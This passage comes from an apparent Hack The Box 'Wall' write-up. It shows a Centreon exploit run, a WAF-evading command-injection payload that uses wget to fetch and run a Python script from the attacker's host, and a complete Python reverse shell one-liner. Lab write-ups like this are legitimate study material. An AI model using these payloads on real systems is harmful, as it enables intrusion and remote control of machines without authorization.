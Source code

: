 I tried getting a reverse shell with the following but that didn't work:

```
# python Centreon-exploit.py http://10.10.10.157/centreon admin password1 10.10.14.19 4444
[+] Retrieving CSRF token to submit the login form
[+] Login token is : 86c1c3f00327a8b146385ebc0ca23bde
[+] Logged In Sucssfully
[+] Retrieving Poller token
[+] Poller token is : 0e9822c471232e62c101655d120676b6
[+] Injecting Done, triggering the payload
[+] Check your netcat listener !
```

The WAF might be preventing the exploit from working. I modified the exploit to add debugging and display the xml message

![](/assets/images/htb-writeup-wall/Screenshot_11.png)

Now I'm seeing that it's trying to execute `id%2523` but it not's configured in my exploit payload so maybe the WAF filtered out my payload.

![](/assets/images/htb-writeup-wall/Screenshot_12.png)

After a bit of trial an error I found that the following payload goes through the WAF:

`"nagios_bin": "wget${IFS}-O${IFS}/tmp/test.py${IFS}http://10.10.14.19/test.py;python${IFS}/tmp/test.py"`

I setup my `test.py` to contain a standard python reverse shell (since nc / ncat wasn't installed on the target box):

`import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.19",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);`

![](/assets/images/htb-writeup-wall/Screenshot_13.png)
